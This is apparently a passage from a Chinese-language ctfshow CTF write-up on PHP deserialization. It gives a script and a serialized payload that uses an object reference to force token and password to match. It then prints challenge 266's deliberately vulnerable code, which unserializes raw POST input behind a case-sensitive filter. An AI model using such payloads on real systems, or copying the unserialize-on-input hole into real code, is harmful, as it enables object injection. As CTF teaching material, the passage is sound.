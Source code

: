```php
<?php

class ctfshowAdmin{
    public $token;
    public $password;

    public function __construct(){
        $this->password = &$this->token;
    }
}

$a = new ctfshowAdmin();
echo serialize($a);

# O:12:"ctfshowAdmin":2:{s:5:"token";N;s:8:"password";R:2;}
```

## 266 类|函数大小写不敏感

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-04 23:52:24
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-05 00:17:08
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

highlight_file(__FILE__);

include('flag.php');
$cs = file_get_contents('php://input');


class ctfshow{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public function __construct($u,$p){
        $this->username=$u;
        $this->password=$p;
    }
    public function login(){
        return $this->username===$this->password;
    }
    public function __toString(){
        return $this->username;
    }
    public function __destruct(){
        global $flag;
        echo $flag;
    }
}
$ctfshowo=@unserialize($cs);
if(preg_match('/ctfshow/', $cs)){
    throw new Exception("Error $ctfshowo",1);
}
```
